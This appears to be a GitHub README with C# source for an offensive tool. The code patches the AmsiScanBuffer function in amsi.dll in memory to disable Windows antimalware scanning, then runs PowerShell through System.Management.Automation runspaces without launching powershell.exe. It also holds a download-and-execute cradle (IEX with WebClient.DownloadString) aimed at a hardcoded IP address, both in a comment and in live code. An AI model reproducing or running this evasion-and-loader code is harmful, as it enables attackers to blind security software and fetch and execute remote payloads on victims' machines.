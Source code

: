 AMSI Bypassing along with System.Management.Automation.Runspaces which doesn't requeire the powershell.exe to execute powershell commands.
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe.


**This AMSI Patching Techniquie is heavy reliance on rastamouse Techniques.
```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Management.Automation;
using System.Text;

namespace AmsiScan
{
    class Program
    {
        static void Main(string[] args)
        {
          
            var AmsiDLL = LoadLibrary("amsi.dll"); // Load the amsi.dll  to obtain The AmsiScanBuffer Address
            var asbAddress = GetProcAddress(AmsiDLL, "AmsiScanBuffer");

            var ret = new byte[] { 0xc3 }; //patch opcode
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, 0x40, out uint oldProtect); //Pointer changing the AmsiScanBuffer memory protection
            Marshal.Copy(ret, 0, asbAddress, ret.Length);
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, oldProtect, out uint _);
            Execution.MeMe();

        }
        //powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.200.128:80/Test'))"
        public class Execution
        {
            public static void MeMe()
            {
                RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
                Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
                rspace.Open();
                Pipeline pipeline = rspace.CreatePipeline();
                pipeline.Commands.AddScript("iex ((New-Object Net.WebClient).DownloadString('http://192.168.200.128:80/Test'))");
                pipeline.Invoke();
            }
        }

        //Importing The Necessary WInAPI to Load 

        [DllImport("kernel32.dll")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
}

```
